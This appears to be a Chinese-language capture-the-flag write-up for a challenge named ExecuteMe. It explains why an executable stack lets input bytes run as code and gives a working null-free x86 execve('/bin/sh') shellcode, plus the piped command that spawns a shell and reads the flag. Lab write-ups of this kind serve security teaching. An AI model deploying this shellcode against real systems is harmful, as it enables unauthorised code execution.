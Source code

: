 # ExecuteMe
 * [Makefile](Makefile)中，`-zexestack`把原本預設的`stack as non-executable``拿掉了，能在stack上執行任何code
 * [程式碼](execute.c) function_ptr
```c
typedef void (*function_ptr)();
...
((function_ptr)buf)();
```
 * function pointer？
  * 每個function包含code和指到code的function pointer
  * code必須是**可執行的assembly code**
 * 而buf在傳給function_ptr前，會先經過：`read(0, buf, 128);`
 * 因此，我們要創造的code，**不能包含\x0**，否則copy function會當作結束字元
 * server是x86
```
$ readelf -h execute
...
Class:    ELF32
Data:     2's complement, little-endia
...
OS/ABI:   UNIX - System V
...
Machine:    Intel 80386
```

## Solve
想自己寫一個但還沒成功，所以先用[網路上其他人做的x86 execve("/bin/sh")](https://www.exploit-db.com/exploits/37069/)：
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80`
 * 放入程式執行
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"') | ./execute
pico62895@shell:/home/execute$
```
 成功執行，但在我們能輸入其他指令前就結束了
 * 使用cat讓他開著，並且會把結果印到terminal上：
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"'; cat) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```
